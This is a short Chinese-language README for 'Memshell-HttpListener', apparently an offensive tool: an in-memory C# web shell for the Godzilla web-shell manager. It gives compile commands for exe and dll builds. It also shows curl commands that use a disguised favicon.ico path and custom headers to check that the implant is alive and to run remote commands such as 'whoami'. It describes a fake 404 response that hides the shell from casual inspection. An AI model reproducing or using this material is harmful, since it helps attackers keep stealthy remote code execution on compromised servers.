 # Memshell-HttpListener
## 说明

代码中需要修改的点
```
input_key  为Godzilla 里面的key
pass       为Godzilla 里面的pass
nodata     为自定义返回404的代码的base64字符串
```

另外如果需要报错log，可将log部分注释去掉查看。


## 编译
**exe**
```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /r:System.Web.dll,System.dll,Microsoft.CSharp.dll,System.Core.dll memshell.cs
```
**dll**
```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /r:System.Web.dll,System.dll,Microsoft.CSharp.dll,System.Core.dll /t:library memshell.cs
```

## 使用
**验证：**
```
curl http://10.211.55.4/favicon.ico -H "Type: print"
```
![](../assets/16384159078389.jpg)

**命令执行：**
```
curl http://10.211.55.4/favicon.ico -H "Type: cmd"  -d "pass=whoami"
```
![](../assets/16384159397039.jpg)

**Godzilla**
添加对应HTTP头即可，
AES_RAW

![](../assets/16384242085416.jpg)

AES_BASE64

![](../assets/16384242790653.jpg)





